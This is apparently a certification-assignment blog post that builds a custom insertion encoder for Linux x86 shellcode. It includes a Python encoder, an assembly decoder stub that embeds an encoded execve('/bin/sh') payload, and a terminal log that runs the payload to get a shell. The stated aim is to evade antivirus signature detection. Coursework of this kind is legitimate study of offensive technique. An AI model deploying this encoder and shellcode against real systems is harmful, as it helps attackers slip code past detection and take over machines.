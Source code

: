 ```yaml
---
title:  "[SLAE 4] Custom Encoding Scheme"
---
```


![Logo](/assets/images/tux-root.png)

## Custom encoding scheme
For the 4th assignment of [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/), I've made a custom encoding scheme, with the same purpose as the insertion encoder: *__avoid signature detection by inserting garbage bytes into the shellcode__*.

The encoding scheme works as follows: we start from a working shellcode and insert garbage blocks, containing a random garbage byte and the offset to the next garbage block. The distance between the garbage blocks is a random value between 2 modifiable limits. In this way we can control the final length of the shellcode and the amount of garbage inserted.

The encoded shellcode will look like this:
```
---------------------------------------------------------
| n0 | . . .| b1 | n1 | . . . . .| b2 | n2 | . . . |END |
---------------------------------------------------------

ni  - next garbage byte position
bi  - garbage byte 
END - END of the shellcode marker
```

The encoding is done in a Python script:
```python
#!/usr/bin/python
'''
    Python Insertion Encoder   
'''
 
import random
 
# Execve-stack shellcode - execve(/bin/sh,..)
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
 
encoded = ""
 
idx = 1
 
# Control  the frequency of garbage through a displacement
MIN_DEP = 3     # min number of shellcode bytes after which to inject garbage
MAX_DEP = 4     # max ...
dep = random.randint(MIN_DEP, MAX_DEP)
n = idx + dep
encoded += '\\x%02x' % n
END = "\\xf0\\x0d"
 
for x in bytearray(shellcode) :
    if idx == n: 
        # We have reached an insertion point
        dep = random.randint(MIN_DEP, MAX_DEP)
        n = idx + dep
 
        encoded += '\\x%02x' % random.randint(1,255)
        encoded += '\\x%02x' % n
        idx += 2
     
    # Add a shellcode byte
    encoded += '\\x%02x' % x
    idx += 1
 
encoded += END
 
print encoded
# Print in nasm friendly form
print encoded.replace("\\x", ",0x")[1:]
 
print 'Initial len: %d, encoded len: %d' % (len(shellcode), 
    len(encoded)/4)
```

The decoding is done in the assembly shellcode: 
```assembly
global _start   

section .text
_start:
 jmp short call_shellcode

decoder:
 pop esi                     ; beginning of the encoded shellcode
 lea edi, [esi]              ; shellcode decoded in place. Edi - dest pointer
 xor eax, eax            
 mov al, byte [esi]          ; position of next garbage byte
 xor ebx, ebx
    push 1                      ; index into the shellcode
    pop ecx

decode: 
    cmp ecx, eax
    jnz short shellcode_byte    ; shellcode byte found 
    add ecx, 2                  ; garbage byte found. Advance 2 bytes
    mov al, byte [esi + eax + 1]; position of next garbage byte    
shellcode_byte:                 ; byte part of real shellcode
 mov bl, byte [esi + ecx]
 mov byte [edi], bl
 inc edi                     ; advance destination
 inc ecx                     ; advance source
 cmp byte [esi + ecx], 0xf0  ; check for END marker
    jnz decode
    cmp byte [esi + ecx + 1], 0x0d
    jnz decode
    jmp esi                     ; shellcode decoded in-place. Jump to it



call_shellcode:

 call decoder
 EncodedShellcode: db 0x04,0x31,0xc0,0x50,0x06,0x08,0x68,0x2f,0x15,0x0b,0x2f,0x12,0x0e,0x73,0x85,0x11,0x68,0x4e,0x14,0x68,0x96,0x18,0x2f,0x62,0xd8,0x1c,0x69,0x6e,0xf9,0x20,0x89,0xe3,0xa9,0x23,0x50,0x6d,0x26,0x89,0x60,0x29,0xe2,0x0e,0x2d,0x53,0x89,0x3b,0x30,0xe1,0xaa,0x34,0xb0,0x0b,0x55,0x37,0xcd,0xe2,0x3b,0x80,0xf0,0x0d
```

And now to test this:
* Encode the _`execve-stack`_ shellcode using the Python script above.
* Disassemble and examine the encoded shellcode
* Define the shellcode bytes at the end of the assembly decoder
* Assemble
* Test using a C program which executes the payload 

```bash
$ ./custom-encoder.py 
\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d
0x05,0x31,0xc0,0x50,0x68,0xb1,0x08,0x2f,0x58,0x0c,0x2f,0x73,0x71,0x10,0x68,0x68,0x88,0x14,0x2f,0x62,0x42,0x17,0x69,0x6a,0x1a,0x6e,0xba,0x1d,0x89,0xf5,0x21,0xe3,0x50,0xe0,0x25,0x89,0xe2,0xaf,0x29,0x53,0x89,0x83,0x2d,0xe1,0xb0,0x33,0x30,0x0b,0x1a,0x33,0xcd,0x66,0x36,0x80,0xf0,0x0d
Initial len: 25, encoded len: 56

$ echo -ne "\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d" | ndisasm -b 32 -
00000000  0531C05068        add eax,0x6850c031
00000005  B108              mov cl,0x8
00000007  2F                das
00000008  58                pop eax
00000009  0C2F              or al,0x2f
0000000B  7371              jnc 0x7e
0000000D  106868            adc [eax+0x68],ch
00000010  88142F            mov [edi+ebp],dl
00000013  624217            bound eax,[edx+0x17]
00000016  696A1A6EBA1D89    imul ebp,[edx+0x1a],dword 0x891dba6e
0000001D  F5                cmc
0000001E  21E3              and ebx,esp
00000020  50                push eax
00000021  E025              loopne 0x48
00000023  89E2              mov edx,esp
00000025  AF                scasd
00000026  295389            sub [ebx-0x77],edx
00000029  832DE1B033300B    sub dword [dword 0x3033b0e1],byte +0xb
00000030  1A33              sbb dh,[ebx]
00000032  CD66              int 0x66
00000034  3680F00D          ss xor al,0xd

$ ./compile.sh 
  [+] Assembling egghunter
  [+] Linking egghunter
\xeb\x2d\x5e\x8d\x3e\x31\xc0\x8a\x06\x31\xdb\x6a\x01\x59\x39\xc1\x75\x07\x83\xc1\x02\x8a\x44\x06\x01\x8a\x1c\x0e\x88\x1f\x47\x41\x80\x3c\x0e\xf0\x75\xe8\x80\x7c\x0e\x01\x0d\x75\xe1\xff\xe6\xe8\xce\xff\xff\xff\x04\x31\xc0\x50\x06\x08\x68\x2f\x15\x0b\x2f\x12\x0e\x73\x85\x11\x68\x4e\x14\x68\x96\x18\x2f\x62\xd8\x1c\x69\x6e\xf9\x20\x89\xe3\xa9\x23\x50\x6d\x26\x89\x60\x29\xe2\x0e\x2d\x53\x89\x3b\x30\xe1\xaa\x34\xb0\x0b\x55\x37\xcd\xe2\x3b\x80\xf0\x0d
  [+] House cleaning
  [+] Done!
$ ./shellcode
Shellcode Length:  112 bytes
$ whoami
liv
$
```


The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
